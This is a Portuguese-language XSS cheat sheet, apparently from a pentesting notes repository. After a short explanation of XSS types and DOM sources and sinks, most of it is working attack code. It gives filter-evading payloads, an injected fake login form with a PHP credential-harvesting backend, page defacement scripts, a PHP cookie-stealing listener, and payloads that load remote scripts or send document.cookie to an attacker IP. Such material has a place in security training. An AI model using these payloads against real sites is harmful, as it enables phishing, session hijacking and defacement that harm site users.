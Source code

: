 # XSS

Existem **três tipos principais** de vulnerabilidades XSS:

| Tipo                         | Descrição |
|-----------------------------|-----------|
| **Stored (Persistent) XSS** | O tipo mais crítico de XSS, ocorre quando a entrada do usuário é armazenada no banco de dados do back-end e, em seguida, exibida posteriormente (ex: postagens ou comentários). |
| **Reflected (Non-Persistent) XSS** | Ocorre quando a entrada do usuário é refletida imediatamente na página após ser processada pelo servidor, sem ser armazenada (ex: resultados de pesquisa ou mensagens de erro). |
| **DOM-based XSS** | Um tipo de XSS não persistente que acontece quando a entrada do usuário é manipulada diretamente pelo navegador, sem passar pelo servidor (ex: parâmetros de URL ou tags de âncora). |

### Exemplos simples de payloads:

```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
<html%0aonpoIntEreNtER+=+[8].find(confirm)//>
<details%09ontoGGle%09=%09[8].find(confirm)%0dx//>
```
Ferramenta útil: [URL/HTML Decoder - Eric Meyer](https://meyerweb.com/eric/tools/dencoder/)

---

### ✳️ DOM-Based XSS - Source & Sink

Para compreender XSS baseado em DOM, é essencial entender os conceitos de:

* **Source**: Objeto JavaScript que recebe a entrada do usuário (ex: parâmetros de URL, campos de input).
* **Sink**: Função que escreve a entrada do usuário no DOM. Se não sanitizar corretamente, permite ataques XSS.

### Funções JavaScript comuns como *sink*:

* `document.write()`
* `element.innerHTML`
* `element.outerHTML`

### Funções jQuery vulneráveis:

* `add()`
* `after()`
* `append()`

---

### 🎣 XSS Phishing

Simulando um formulário de login falso via XSS (passar no parâmetro vulnerável):

```html
document.write('<h3>Please login to continue</h3><form id="urlform" action="http://172.17.173.25"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById("urlform").remove();</script> <!--

```
Backend para captura de credenciais no seu host (ex na sua maquina atacante, um arquivo: index.php):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    fclose($file);
    header("Location: http://SERVER_IP/phishing/index.php");
    exit();
}
?>
```
Host local com servidor PHP:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
sudo php -S 0.0.0.0:80
```

---

### 🖥️ XSS Defacement
Altera o conteúdo visual da página:

```html
<script>document.body.style.background = "black"</script>
<script>document.title = "deface"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = "Deface"</script>

<script>
document.getElementsByTagName('body')[0].innerHTML = `
  <center>
    <h1 style="color: black">Protect this site, fellas</h1>
    <p style="color: white">
      by <img src="https://i.imgflip.com/1gpstz.jpg" height="1000px">
    </p>
  </center>`;
</script>
```

---

### 🍪 XSS Session Hijacking / Blind XSS

Backend para roubo de cookies (ex: index.php):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $cookie) {
        $cookie = urldecode($cookie);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Host local para escuta:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
php -S 0.0.0.0:4444
```
Payloads de exfiltração:

```html
<script src="http://OUR_IP"></script>
'><script src="http://OUR_IP"></script>
"><script src="http://OUR_IP"></script>

javascript:eval('var a=document.createElement("script");a.src="http://OUR_IP";document.body.appendChild(a)')

<script>
function b(){eval(this.responseText)};
a = new XMLHttpRequest();
a.addEventListener("load", b);
a.open("GET", "//OUR_IP");
a.send();
</script>

<script>$.getScript("http://OUR_IP")</script>

"><script>new Image().src='http://10.10.15.190:8080/index.php?c='+document.cookie</script>
```


